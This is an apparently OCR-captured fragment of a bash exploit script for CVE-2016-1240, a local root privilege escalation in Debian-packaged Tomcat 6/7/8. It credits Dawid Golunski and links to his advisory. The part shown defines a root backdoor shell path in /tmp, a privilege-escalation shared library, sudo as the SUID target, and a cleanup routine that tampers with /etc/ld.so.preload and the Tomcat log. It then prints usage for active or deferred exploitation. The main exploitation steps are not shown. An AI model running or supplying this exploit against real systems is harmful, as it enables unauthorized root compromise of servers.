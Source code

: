     # Ubuntu/Debian Tomcat installations).
    #
    # See full advisory for details at:
    # http://legalhackers.com/advisories/Tomcat-DebPkgs-Root-Privilege-Escalation-Exploit-CVE-2016-1240.html
    #
    # Disclaimer:
    # For testing purposes only. Do no harm.
    #

    BACKDOORSH="/bin/bash"
    BACKDOORPATH="/tmp/tomcatrootsh"
    PRIVESCLIB="/tmp/privesclib.so"
    PRIVESCSRC="/tmp/privesclib.c"
    SUIDBIN="/usr/bin/sudo"

    function cleanexit {
        # Cleanup 
        echo -e "\n[+] Cleaning up..."
        rm -f $PRIVESCSRC
        rm -f $PRIVESCLIB
        rm -f $TOMCATLOG
        touch $TOMCATLOG
        if [ -f /etc/ld.so.preload ]; then
            echo -n > /etc/ld.so.preload 2>/dev/null
        fi
        echo -e "\n[+] Job done. Exiting with code $1 \n"
        exit $1
    }

    function ctrl_c() {
            echo -e "\n[+] Active exploitation aborted. Remember you can use -deferred switch for deferred exploitation."
        cleanexit 0
    }

    #intro 
    echo -e "\033[94m \nTomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit\nCVE-2016-1240\n"
    echo -e "Discovered and coded by: \n\nDawid Golunski \nhttp://legalhackers.com \033[0m"

    # Args
    if [ $# -lt 1 ]; then
        echo -e "\n[!] Exploit usage: \n\n$0 path_to_catalina.out [-deferred]\n"
        exit 3
    fi
    if [ "$2" = "-deferred" ]; then
        mode="deferred"
    else
        mode="active"
    fi
